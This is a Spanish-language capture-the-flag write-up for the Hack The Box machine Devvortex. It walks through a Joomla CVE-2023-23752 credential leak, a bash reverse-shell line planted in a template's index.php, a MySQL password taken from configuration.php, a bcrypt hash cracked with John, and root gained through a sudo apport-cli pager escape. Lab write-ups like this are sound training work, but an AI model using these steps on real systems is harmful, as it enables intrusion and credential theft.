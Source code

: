 ```yaml
---
title: Devvortex 
---
```


![htb](../../../../../assets/dev.png)

## Enumeración

Empezamos enumerando con nmap versiones y puertos abiertos, también probé con los scripts básicos, pero no me reportaron gran cosa. El nombre del host tendremos que añadirlo en el **_/etc/hosts_** para que la página web funcione.

![nmap](../../../../../assets/devvorttex/nmap.png)


Como es ritual, seguimos con la enumeración de rutas comunes y subdominios. Haciendo fuzzing a las rutas comunes no se encontró nada, pero en los subdominios hubo un reporte de uno: <u>dev.</u> Está activo, así que lo añadimos al **_/etc/hosts_**.

![ffuf](../../../../../assets/devvorttex/fuzz.png)

## Explotando Joomla

Cuando entramos al subdominio nos encontramos con una pantalla de login con un CMS llamado Joomla. No nos indica la versión, pero buscando por internet descubrí un [POC](https://github.com/Acceis/exploit-CVE-2023-23752) que filtra credenciales haciendo uso de la [CVE-2023-23752](# "Esta vulnerabilidad expone endpoints donde se filtran credenciales: /api/index.php/v1/users?public=true y /api/index.php/v1/config/application?public=true"). Accedemos con las credenciales dadas.

![ruby](../../../../../assets/devvorttex/ruby.png)

## Reverse Shell

Una vez que hemos accedido al panel administrativo, nos reporta que PHP está desactualizado y algunas cosas más. En este caso tendremos que investigar bien la página, ya que en una sección encontraremos **Administrator Templates**.

![panel](../../../../../assets/devvorttex/pnael.png)

En esta sección podremos elegir el archivo que queremos editar. Yo decidí editar el index.php, ya que cuando cargue la página principal se ejecutará mi reverse shell.

```php
system("bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'");
```

Con esto ganaremos acceso al sistema como el usuario **www-data**.

![system](../../../../../assets/devvorttex/sistema.png)

#### Accediendo como el usuario Logan

Al ganar acceso al sistema, tenemos que loguearnos como el usuario logan. Como acto rutinario, voy a la ruta **_/var/www/html/dev.devvortex.htb/_** a investigar un poco, ya que en ~/devvortex.htb no había nada. Ahí encontraremos un archivo _configuration.php_ con las credenciales de MySQL. Aunque debí haber probado primero las credenciales de Joomla (ya que las recicla una vez más)... pero bueno, vamos a lo seguro.

```php
<?php
class JConfig {
	public $offline = false;
	public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';
	public $db = 'joomla';
	public $dbprefix = 'sd4fg_';
```

###### Para conectarnos:

```sql
mysql -u lewis -h localhost -p
```
<span style="font-size:12px">"_Ingresas la contraseña cuando te la piden_"</span>

Una vez dentro, vamos a buscar la tabla "_sd4fg_users_" donde encontraremos la información del usuario logan.

![sql](../../../../../assets/devvorttex/sql.png)

##### Rompiendo el hash

Para romper el hash lo guardaremos en un documento _hash.txt_ y con John crackearemos el contenido del archivo:

```
❯ john -w=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
No password hashes left to crack (see FAQ)

❯ john --show hash.txt
?:tequieromucho
```

Bastante curiosa la contraseña :3. Ya podremos entrar como el usuario logan vía SSH.

## Escalando privilegios

Ya que estamos logueados como logan, empezamos nuestra enumeración básica para escalar privilegios. A la primera vemos que tenemos permiso para ejecutar como todos los usuarios el comando "_/usr/bin/apport-cli_".

- Usando el comando `sudo /usr/bin/apport-cli -f`:

![debug](../../../../../assets/devvorttex/debu.png)
<span style="font-size:12px">"_Entrarás en un modo que se llama "bug filing mode", esto se usa para registrar errores_"</span>

Aquí probé varias cosas, pero lo que me sacó al modo paginator fue la opción **5 dist-upgrade** y luego darle a la tecla **V**, que nos permitirá ver los errores en modo paginator. 

![view](../../../../../assets/devvorttex/view.png)

Ya solo sería escribir `!/bin/bash` y obtendremos una shell como root.

## Reflexión

Fue una máquina bastante sencilla en general. La vulnerabilidad en Joomla no fue muy explotada, pero sin embargo fue bastante interesante de trabajar. En mi opinión, se reciclaron demasiadas veces las credenciales, lo cual hace que vayas volando a la hora de resolverla.  
La escalada de privilegios es un poco de prueba y error hasta alcanzar un paginator y poder escapar de él.

# FIN
